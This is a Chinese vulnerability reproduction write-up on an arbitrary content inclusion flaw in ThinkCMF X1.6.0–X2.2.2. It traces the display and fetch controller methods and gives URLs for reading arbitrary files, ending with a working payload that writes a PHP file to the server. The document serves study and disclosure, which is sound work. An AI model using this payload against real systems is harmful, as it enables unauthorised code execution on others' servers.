




# ThinkCMF 框架上的任意内容包含漏洞

> 原文：[http://book.iwonder.run/0day/ThinkCMF/1.html](http://book.iwonder.run/0day/ThinkCMF/1.html)

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0 ThinkCMF X2.1.0 ThinkCMF X2.2.0 ThinkCMF X2.2.1 ThinkCMF X2.2.2

## 三、复现过程

根据 index.php 中的配置，他的项目路径为 application，打开 Portal 下的 Controller 目录，选择一个控制类文件。



发现他的父类为 Common\Controller\HomebaseController。 在 HomeBaseController 中加入如下测试代码



ThinkPHP 是一套基于 MVC 的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。 由于添加的代码在控制器中，根据 ThinkPHP 框架约定可以通过 a 参数来指定对应的函数名，但是该函数的修饰符必须为 Public, 而添加的代码正好符合该条件。 可以通过如下 URL 进行访问，并且可以添加 GET 参数 arg1 传递给函数。

```
http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success 
```


HomeBaseController 类中有一些访问权限为 public 的函数，



重点关注 display 函数.看描述就是可以自定义加载模版，通过 $this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。 然后调用 THinkphp Controller 函数的 display 方法

```
/**
 * 加载模板和页面输出 可以返回输出内容
 * @access public
 * @param string $templateFile 模板文件名
 * @param string $charset 模板输出字符集
 * @param string $contentType 输出类型
 * @param string $content 模板输出内容
 * @return mixed
 */
public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
    parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
} 
```

再往下就是调用 Think View 的 fetch 方法，这里的 TMPL_ENGINE_TYPE 为 Think, 最终模版内容解析在 ParseTemplateBehavior 中完成 如下调用即可加载任意文件 [http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md](http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md)



往下面翻阅发现还有 fetch 方法，display 方法相对 fetch 只是多了一个 render 的过程，而且这里不需要知道文件路径

最终完美 payload

```
http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php> 
```

